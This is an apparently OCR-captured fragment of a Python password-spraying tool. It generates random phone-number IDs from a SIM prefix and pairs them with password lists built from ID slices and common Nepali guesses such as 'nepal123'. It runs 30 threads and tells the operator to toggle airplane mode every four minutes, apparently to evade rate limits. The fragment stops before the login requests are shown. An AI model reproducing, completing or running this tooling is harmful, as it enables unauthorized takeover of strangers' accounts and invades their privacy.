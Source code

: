     code = input(f' {red}[{green}◆{red}]{green} Choice    {red}➠ \x1b[38;5;208m')
    clear()
    print(f' {red}[{green}◆{red}] {green}EXAMPLE {red}  ➠ {green}10000 20000 30000{red}]');line()
    limit = int(input(f' {red}[{green}◆{red}] {green}LIMITS    {red}➠ {green}'))
    line()
    plist = []
    clear()
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m METHOD 1\n \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m METHOD 2\n \x1b[38;5;160m[\033[1;37mC\x1b[38;5;160m]\x1b[38;5;46m METHOD 3\n \x1b[38;5;160m[\033[1;37mD\x1b[38;5;160m]\x1b[38;5;46m METHOD 4\n \x1b[38;5;160m[\033[1;37mE\x1b[38;5;160m]\x1b[38;5;46m METHOD 5\n \x1b[38;5;160m[\033[1;37mF\x1b[38;5;160m]\x1b[38;5;46m METHOD 6");line()
    mtd=input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}")
    clear()
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m AUTO PASSWORD")
    print(f" \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m CHOICE PASSWORD {red}(BEST)");line()
    __CH__ = input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}")
    if __CH__ in ["A","a","1"]:
        plist.append('first6')
        plist.append('last6')
        plist.append('first7')
        plist.append('last7')
        plist.append('first8')
        plist.append('last8')
        plist.append('last11')
        plist.append("nepal12")
        plist.append("nepal123")
        plist.append("nepal1234")
        plist.append("nepal12345")
        plist.append("maya123")
        plist.append("kathmandu")
        plist.append("pokhara")
        plist.append("tamang")
        plist.append("maya1234")
        plist.append("tamang12345")
        plist.append("tamang123")
        plist.append("nepal@123")
        plist.append("kathmandu123")
    elif __CH__ in ["B","b","2"]:
        clear()
        psl = int(input(f' {red}[{green}●{red}] {green}INPUT PASS LIMITS {red}➠ {green}'));line()
        print(f" {red}[{white}●{red}] {green}EXAMPLE {red}➠{green} first6,first8,last6,last8")
        line()
        for i in range(psl):
            plist.append(input(f' {red}[{green}●{red}] {green}PASSWORD NO.{i+1} {red}➠ {green}'));line()
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    clear()
    with ThreadPoolExecutor(max_workers=30) as error:
        clear()
        print(f' {red}[{white}●{red}]{green} SIM CODE  {red}:{green} {code} {red}➠{green} METHOD {red}: {green}{mtd}')
        print(f' {red}[{white}●{red}]{green} TOTAL UID {red}:{green} %s ' %len(user))
        print(f' {red}[{white}●{red}]{green} TURN {red}[{white}ON{red}/{white}OFF{red}]{green} AIRPLANE MODE EVERY {white}4{green} MIN');line()
        for love in user:
            ids = code + love
            xxc= [love,ids,love[1:],love[2:],ids[5:],ids[4:],ids[3:],ids[2:],ids[1:],ids[0:],ids[:6],ids[:7],ids[:8],ids[:9],ids[:10]]
            tl = len(user)
            psd = xxc
            psd = plist